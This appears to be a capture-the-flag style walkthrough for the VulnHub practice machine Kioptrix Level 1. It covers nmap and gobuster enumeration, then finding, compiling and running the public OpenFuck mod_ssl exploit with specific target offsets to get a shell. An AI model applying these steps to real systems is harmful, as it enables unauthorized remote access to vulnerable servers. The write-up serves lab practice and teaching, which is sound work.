```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49
```nmap -T5 <LHOST>/24```
Kioptrix is running on: x.x.x.104  

## Init NMap Scan
```
nmap -sC -sV -oA nmap x.x.x.104
```
 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster
```
gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml
```
![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit
```
searchsploit mod_ssl
```
< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev
```
apt-get install libssl-dev
```
It also explains how to compile
```
gcc -o exploit 47080.c -lcrypto
```
Now we need to find out how to use it properly, so run the script
```
./exploit
```
It presents us with:
```
: Usage: ./script target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```
and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first
```
./exploit 0x6a x.x.x.104 -c 40
```
Unsucessful
```
./exploit 0x6b x.x.x.104 -c 40
```
It Works!

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine
